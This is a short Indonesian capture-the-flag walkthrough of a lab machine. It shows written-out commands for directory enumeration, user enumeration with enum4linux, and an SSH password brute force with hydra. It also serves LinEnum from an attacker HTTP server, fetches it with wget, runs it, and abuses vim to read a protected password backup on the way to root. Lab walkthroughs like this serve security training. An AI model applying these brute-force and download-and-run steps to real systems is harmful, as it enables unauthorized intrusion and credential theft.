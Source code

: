 # langkah -langkah
- untuk mencari direktori tersembunyi di web, bisa menggunakan perintah `dirsearch -u http://ip-target`, dan kita berhasil menemukan direktori `development/`
- di http://ip-target/development, ada 2 file `dev.txt,dan j.txt`, lalu jalankan perintah ` enum4linux ip-target`, lalu kita mendapatkan user `kay dan jan`, ini sesuai dengan inisial yang kita lihat di dalam file txt tadi
- selanjutnya kita coba bruteforce menggunakan hydra dengan perintah `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<target ip>`, dan kita berhasil mendapatkan passwordnya `armando`
- lalu kita login ssh menggunakan user jan dan password yang tadi kita dapat, lalu kita cek ke direktori `ls /home/kay`, kita akan melihat pass.bak, namun user jan tidak di izinkan untuk mengakses file tersebut  
- Untuk bisa mendapatkan hak istimewa yang meningkat, kita dapat menggunakan alat seperti LinEnum untuk mendapatkan info lebih lanjut tentang kemungkinan vektor serangan,
- download LinEnum.sh, lalu jalankan perintah `python -m http.server 8000` di perangkat penyerang, di ssh jan, masuk ke /tmp dan jalankan perintah `wget http://<attack ip>:8000/LinEnum`
- lalu jalankan perintah `chmod +x LinEnum.sh`, setelah itu jalankan`./LinEnum.sh` dan tunggu hingga proses selesai, Kita dapat melihat bahwa Kay adalah seorang admin.
- Vim.basic adalah file SUID, artinya kita dapat menjalankannya dengan hak akses root. Sekarang kita dapat menggunakan vim untuk membaca file `pass.bak` dari sebelumnya!,
- lalu jalankan perintah `sudo vim /home/kay/pass.bak` dan kita mendapatkan password kay `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
- tambahan kita bisa beralih ke user kay `su kay` dengan password tersebut dan kita bisa mendapatkan flag.txt di direktori /root
 
